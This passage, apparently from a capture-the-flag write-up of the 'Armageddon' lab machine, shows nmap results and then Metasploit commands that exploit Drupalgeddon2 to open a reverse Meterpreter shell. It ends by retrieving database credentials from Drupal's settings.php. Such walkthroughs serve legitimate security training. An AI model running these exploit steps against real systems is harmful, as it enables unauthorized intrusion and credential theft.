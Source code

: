 ```
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

## 3. Search for Exploit
Drupal 7.56 is vulnerable to Drupalgeddon2.
https://www.exploit-db.com/exploits/44449

## 4. Metasploit with Drupalgeddon2
```
search Drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set lhost 10.10.14.27 (My IP)
set rhosts 10.10.10.233
exploit
```
```
[*] Started reverse TCP handler on 10.10.14.27:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.10.10.233:43272) at 2021-04-02 02:03:21 +0900
```

## 5. Database Credentials
/var/www/html/sites/default/settings.php
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => '<HIDDEN PASSWD>',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
